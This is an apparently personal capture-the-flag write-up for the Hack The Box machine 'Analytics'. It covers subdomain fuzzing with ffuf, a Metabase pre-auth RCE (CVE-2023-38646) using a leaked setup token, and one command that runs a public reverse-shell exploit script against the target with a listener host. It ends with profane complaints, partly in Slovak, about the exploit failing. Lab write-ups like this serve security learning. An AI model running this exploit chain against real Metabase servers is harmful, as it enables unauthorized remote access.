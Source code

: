 # Analytics

Starting scanning ports with nmap

<figure><img src=".gitbook/assets/obrazek (23).png" alt=""><figcaption></figcaption></figure>

With ffuf we find sub-domain data so we need to add it to etc/hosts/

```
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://analytical.htb -H "Host: FUZZ.analytical.htb" -mc 200
```

<figure><img src=".gitbook/assets/obrazek (24).png" alt=""><figcaption></figcaption></figure>

Find exploit to metabase: [https://github.com/shamo0/CVE-2023-38646-PoC](https://github.com/shamo0/CVE-2023-38646-PoC)

So going to ../api/session/properties

setup-token: "249fa03d-fd94-4d5b-b94f-b4ebf3df681f"

<figure><img src=".gitbook/assets/obrazek (25).png" alt=""><figcaption></figcaption></figure>

I find problem with that github i dont have professional burpsuite, so i cant get collaborator-url

Another github i found: [https://github.com/securezeron/CVE-2023-38646.git](https://github.com/securezeron/CVE-2023-38646.git)

python CVE-2023-38646-Reverse-Shell.py --rhost data.analytical.htb/ --lhost 10.10.14.123

Totálna sračka exploit niekomu ide, niekomu nie !!! \
\+ pri restarte nejde 80ka port !!!

F\*ck U
